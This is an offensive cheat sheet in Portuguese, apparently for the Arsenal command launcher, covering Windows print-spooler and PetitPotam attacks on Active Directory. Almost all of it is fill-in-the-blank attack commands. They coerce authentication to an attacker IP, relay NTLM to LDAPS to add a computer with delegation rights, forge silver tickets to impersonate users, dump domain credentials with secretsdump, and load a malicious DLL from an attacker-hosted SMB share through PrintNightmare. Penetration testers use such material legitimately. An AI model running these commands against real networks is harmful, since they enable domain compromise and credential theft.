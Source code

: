 # Printerbug e Petitpotam

% printerbug, petitpotam, Active directory

## Identifica serviços "Spooler" ouvindo
#plateform/linux  #target/remote #cat/RECON 
```
rpcdump.py <domain>/<user>:'<password>'@<dc> | grep MS-RPRN
```

## Identifica serviços "Spooler" de forma anônima
#plateform/linux  #target/remote #cat/RECON 
```
rpcdump.py <dc> | grep -A 6 MS-RPRN
```

## dementor
#plateform/linux  #target/remote #cat/ATTACK/EXPLOIT 
https://github.com/NotMedic/NetNTLMtoSilverTicket

```
dementor.py -d <domain> -u <user> -p <password> <attacker_ip> <dc2>
```

## printerbug
#plateform/linux  #target/remote #cat/ATTACK/EXPLOIT 
https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py

```
printerbug.py '<domain>/<user>:<password>'@<ip> <attacker_ip>
```

## webclientservicescanner
#plateform/linux  #target/remote #cat/RECON
https://github.com/Hackndo/WebclientServiceScanner
```
webclientservicescanner '<domain>/<user>:<password>'@<ip_range>
```

## PetitPotam
#plateform/linux  #target/remote #cat/ATTACK/EXPLOIT
https://github.com/topotam/PetitPotam
```
PetitPotam.py -u <user> -p '<password>' -d <domain> <listener> <target>
```

## ntlmrelayx adiciona computador
#plateform/linux  #target/remote #cat/ATTACK/MITM 
```
ntlmrelayx -t ldaps://<dc1> -smb2support --remove-mic --add-computer <computer_name> <computer_password> --delegate-access
```

## usa um silver ticket
#plateform/linux  #target/remote #cat/ATTACK/EXPLOIT 
```
getST.py -spn host/<dc2> -impersonate <user_to_impersonate> -dc-ip <dc1_ip> '<domain>/<computer_name>$:<computer_password>'
```

## secret dump utilizando kerberos
## secret dump with kerberos
#plateform/linux  #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
secretsdump -k <dc>
```

## PrintNightmare
#plateform/linux  #target/remote #cat/ATTACK/EXPLOIT
https://github.com/cube0x0/CVE-2021-1675

- windows server 2019
  container_info['DriverInfo']['Level2']['pDriverPath']  = "C:\\Windows\\System32\\DriverStore\\FileRepository\\ntprint.inf_amd64_83aa9aebf5dffc96\\Amd64\\UNIDRV.DLL\x00"
- windows server 2016          
  container_info['DriverInfo']['Level2']['pDriverPath']  = "C:\\Windows\\System32\\DriverStore\\FileRepository\\ntprint.inf_amd64_db4f0d0030e708f4\\Amd64\\UNIDRV.DLL\x00"


Necessario ter um servidor real de smb (não ira funcionar com um servidor impacket)

```
CVE-2021-1675.py <domain>/<user>:<password>@<target_ip> '\\<attacker_ip>\<share_name>\<dll_name|inject>.dll'
```

## Printspoofer escalação de privilégios
#plateform/windows  #target/local #cat/ATTACK/EXPLOIT

https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/PrintSpoofer.NET

```
PrintSpooferNet.exe \\.\pipe\test\pipe\spoolss <launch_cmd>
```

## Spoolsample launch pipe
#plateform/windows  #target/remote #cat/ATTACK/EXPLOIT
```
SpoolSample.exe <target_hostname> <target_hostname>/pipe/test
```

## Spoolsample
#plateform/windows  #target/remote #cat/ATTACK/EXPLOIT

coherced authentitication 

```
SpoolSample.exe <target_server> <capture_server> 
```


= user : anonymous
= pass : anonymous
= computer_name : arsenal
= dc : DC01.domain.local
= dc1 : DC01.domain.local
= dc2 : DC02.domain.local
= computer_password : 123soleil
= ip_range : 192.168.1.0/24
